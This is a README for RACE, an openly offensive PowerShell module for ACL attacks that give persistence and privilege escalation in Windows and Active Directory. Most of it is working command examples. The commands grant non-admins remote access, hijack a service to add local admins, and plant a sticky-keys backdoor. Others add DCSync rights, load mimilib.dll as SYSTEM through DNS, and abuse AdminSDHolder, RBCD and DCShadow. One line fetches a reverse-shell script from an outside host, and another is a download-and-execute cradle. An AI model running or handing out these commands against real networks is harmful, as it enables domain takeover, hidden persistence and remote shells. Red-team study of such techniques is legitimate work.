 # RACE
### RACE is a PowerShell module for executing ACL attacks against Windows targets and Active Directory. RACE can be used for persistence and on demand privilege escalationon Windows machines. 
### By [nikhil_mitt](https://twitter.com/nikhil_mitt)

### Usage

Note that RACE is a tool which is used after you have admin or DA (in case of DC) privileges. 
The introductory blog post is available here: https://www.labofapenetrationtester.com/2019/08/race.html

Import the module in current PowerShell session
```powershell
PS C:\> Import-Module C:\RACE-master\RACE.psd1
```
Use dot sourcing
```powershell
PS C:\> . C:\RACE-master\RACE.ps1
```
Download and execute
```powershell
iex (New-Object Net.WebClient).DownloadString('')
```

Get help about any function
```powershell
PS C:\> Get-Help Set-DCPermissions -Full
```
### Functions

Note that the functions Set-ADACL and Set-DCPermissions need Microsoft ActiveDirectory module. You can get it from a DC or from my GitHub: https://github.com/samratashok/ADModule

### Set-RemotePSRemoting
Use this function to modify ACL of PowerShell Remoting endpoint so that you can access the target machine without admin.
```powershell
PS C:\> Set-RemotePSRemoting -SamAccountName labuser -ComputerName ops-dc
```
Use the above command to add permissions on the remote machine for labuser to access PowerShell remoting.

```powershell
PS C:\> Set-RemotePSRemoting -SamAccountName labuser -ComputerName ops-dc -Credential ops\administrator
```
Use the above command to add permissions on the remote machine for labuser to access PowerShell remoting using explicit credentials.

### Set-RemoteWMI
Use this function to modify ACL of DCOM endpoint and all the namespaces so that you can access the target machine without admin.
```powershell
PS C:\> Set-RemoteWMI -SamAccountName labuser -ComputerName ops-dc
```
Use the above command to add permissions on the remote machine for labuser to access PowerShell remoting.

### Set-RemoteServicePermissions and Set-RemoteServiceAbuse
Use these tmodify ACLs of services on windows machines. 

```powershell
PS C:\> Set-RemoteServicePermissions -SamAccountName labuser -ComputerName ops-mssql -ServiceName ALG -Verbose
```
Use the above command to modify ACL of 'ALG' service on ops-mssql to allow labuser to modify the service (gives 'CCDCLCSWRPWPDTLOCRSDRCWDWO' rights)

```powershell
PS C:\> Set-RemoteServiceAbuse -ComputerName ops-mssql -UserName 'labuser' -ServiceName ALG -Verbose
```
Run the above command as 'labuser' to configure ALG to run as SYSTEM and modify its executable path to add 'labuser'
or other Principal provided in the UserName parameter to the local adminisrators group on the target machines. 

```powershell
PS C:\> sc.exe \\ops-mssql start ALG
```
Run the above command as 'labuser' to execute the payload set as executable of ALG

### Set-RemoteRegistryPermissions
Function which can be used to modify permissions of Remote Registry by modifying a registry key on local or remote machine.

```powershell
PS C:\> Set-RemoteRegistryPermissions -SamAccountName labuser -ComputerName ops-mssql -Verbose 
```
Use the above command to modify permissions of the 'Remote Registry' key on the target machine to allow 'labuser' 
access to Remote Registry. 

### Set-RegistryImageFileExecution and Invoke-RegistryAbuse
Set-RegistryImageFileExecution mdifies the Permissions for the registry key 'HKLM:\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options' and 'HKLM:\SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp'.

```powershell
PS C:\> Set-RegistryImageFileExecution -SamAccountName labuser -ComputerName ops-mssql -Verbose 
```
Use the above command to modify permissions of the 'Image File Execution Options' key on the target machine to allow 'labuser' 
permissions to modify the key and its subkeys. 
```powershell
PS C:\> Invoke-RegistryAbuse -ComputerName ops-mssql -Method ImageFileExecution -Verbose 
```
Above command sets payload for sethc (sticky keys) and disables NLA.

### Set-DCOMPermissions and Invoke-DCOMAbuse
Set-DCOMPermissions can be used to modify ACLs of DCOM provide non-admin Princiapls access to DCOM.

```powershell
PS C:\> Set-DCOMPermissions -UserName labuser -ComputerName ops-mssql -Verbose 
```
Use the above command to add permissions on the target machine for labuser to execute commands using DCOM.
Then use Invoke-DCOMAbuse as labuser to run commands:
```powershell
Invoke-DCOMAbuse -ComputerName ops-build -Method MMC20 -Arguments 'iex(iwr -UseBasicParsing http://192.168.100.31:8080/Invoke-PowerShellTcp.ps1)'
```

### Set-JEAPermissions
Function which can be used to create a new JEA endpoint for PowerShell remoting to provide access for non-admin Principals. 
```powershell
PS C:\> Set-JEAPermissions -ComputerName ops-build -SamAccountName labuser -Verbose 
```
Use the above command to create a new JEA endpoint on the target machine which provides administrator privileges. 

Use the below command to connect to the target machine. Note the -ConfigurationName parameter:
```powershell
PS C:\> Enter-PSSession -ComputerName ops-build -ConfigurationName microsoft.powershell64 
```

### Set-ADACL
The function can set ACL of a domain object specified by TargetSamAccountName or DistinguishedName.

It requires Microsoft's Active Directory module. You either need the AD RSAT tools (available on DC) or get the module 
from here: https://github.com/samratashok/ADModule

```powershell
PS C:\> Set-ADACL -SamAccountName labuser -DistinguishedName 'DC=powershell,DC=local' -GUIDRight DCSync -Server powershell.local -Verbose
```
Use the above command to modify ACL of the domain object powershell.local to add DCSync rights for 'labuser'.

### Set-DNSAbusePermissions and Invoke-DNSAbuse
Use Set-DNSAbusePermissions to modify ACL of DNS Server Object and permissions for the DNS service.
```powershell
PS C:\> Set-DNSAbusePermissions -SAMAccountName labuser -DistinguishedName 'CN=MicrosoftDNS,CN=System,DC=offensiveps,DC=powershell,DC=local' -ComputerName ops-dc -Verbose
```
Use the above command to modify ACL of DNS Server to add permissions for labuser so that it can remotely load DLLs as SYSTEM on the DNS Server.

Use the below command (needs DNS Server module that is available with DNS RSAT) to load the DLL.
```powershell
PS C:\> Invoke-DNSAbuse -ComputerName ops-dc -DLLPath \\ops-build\dll\mimilib.dll -Verbose 
```

### Set-DCPermissions
Function to modify ACL of domain objects for specific attacks.
```powershell
Set-DCPermissions -Method AdminSDHolder -SAMAccountName labuser -DistinguishedName 'CN=AdminSDHolder,CN=System,DC=offensiveps,DC=powershell,DC=local' -Verbose 
```
Use the above command to modify ACL of the AdminSDHolder to allow labuser permissions to modify ACL of AdminSDHolder.
Using these permissions, labuser can change ACL of AdminSDHolder and get rights over all the Protected Groups.

```powershell
Set-DCPermissions -Method RBCD -DistinguishedName 'CN=OPS-FILE,OU=Servers,DC=offensiveps,DC=powershell,DC=local' -SAMAccountName labuser -Verbose 
```
Use the above command to modify ACL of OPS-FILE$ user to add permissions for labuser to configure Resource-based Constrained Delegation.

### Set-DCShadowPermissions
Function to modify ACL of multiple domain objects to allow DCShadow execution without Domain Admin privilges

```powershell
PS C:\> Set-DCShadowPermissions -FakeDC emptest -SAMAccountName testuser -Username privuser -Verbose 
Use the above command to modify ACLs to run DCShadow from ps-paw machine as privuser against testuser.
```
### Bugs, Feedback and Feature Requests
Please raise an issue if you encounter a bug or have a feature request.\

### Contributing
You can contribute by fixing bugs or contributing to the code. If you cannot code, please use the tool and provide feedback and bugs!

### Supporting material

The introductory blog post is available here: https://www.labofapenetrationtester.com/2019/08/race.html
The above post contains slides and videos for the DEF CON27 talk for this tool.
